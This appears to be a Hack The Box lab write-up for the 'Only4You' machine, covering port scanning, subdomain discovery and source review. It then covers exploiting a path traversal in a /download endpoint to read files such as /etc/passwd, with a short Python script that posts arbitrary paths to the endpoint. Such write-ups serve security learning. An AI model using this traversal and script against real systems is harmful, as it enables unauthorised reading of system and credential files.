 ## Box Info

![255275860-51f2b41a-85ad-4fb7-9b9d-7515b8058ea3](https://github.com/0xRyies/HTB/assets/60355031/a1e3d478-b185-483c-8e70-133797856a85)


## Recon
### Nmap
nmap found two open ports 80 and 22 

![255276062-99c425a5-275a-4965-a848-0db1d0eeb080](https://github.com/0xRyies/HTB/assets/60355031/74165bac-8be8-4a69-ab61-7a56b528b954)


we can notice that it's an Ubuntu box running on Nginx 1.18.0, and we can see the domain ```only4you.htb``` so we can add that to our ```/etc/hosts``` real quick

### Viewing the web app 
nothing really interesting on the web page, almost everything is static but if we focus a bit we can catch a subdomain

![255277643-ea60d2a7-d981-4885-a891-9b739664285e](https://github.com/0xRyies/HTB/assets/60355031/44397b8e-cee2-403d-ad47-9006f157f57b)


let's add it to the ```/etc/hosts``` and see if there's anything interesting in there

![255278452-4342b2e8-9795-4e6f-adc2-f74b140caac7](https://github.com/0xRyies/HTB/assets/60355031/c263385f-ed49-4ff7-bc2a-20cc69a0a87d)


and we can actually download the source code :D, let's not waste our time and review the code.

after reviewing the code turns out there's a path traversal that allows us to read any local file we have access to as www-data

![255279037-ac6c7f04-2a10-4ab2-9ffd-f267d4fa6b73](https://github.com/0xRyies/HTB/assets/60355031/e8e39123-a9ef-482e-915b-253010178f15)


we can just bypass the filter by doing ```/etc/passwd``` and we're good to go, since we have the source code I crafted a payload to the ```/download``` endpoint to test the theory

![255280329-63302f1f-8beb-44a9-8bea-1701aadbaf8a](https://github.com/0xRyies/HTB/assets/60355031/e5824b3d-7878-4822-bb44-d5356d1c7d26)


I made a script to make my life a little easier using ```cmdline()``` 
```python
import cmd
import requests

class MyCmd(cmd.Cmd):
    prompt = 'Exp@Bash$ '

    def do_exit(self, inp):
        '''Exit the program'''
        print('Bye')
        return True

    def default(self, inp):
        try:
            # Replace the URL and the data object with your own values
            url = 'http://beta.only4you.htb/download'
            data = {"image": f"{inp}"}

            # Send the request
            response = requests.post(url, data=data)
            result = response.text
            print(result)
        except:
            print('An error occurred')
```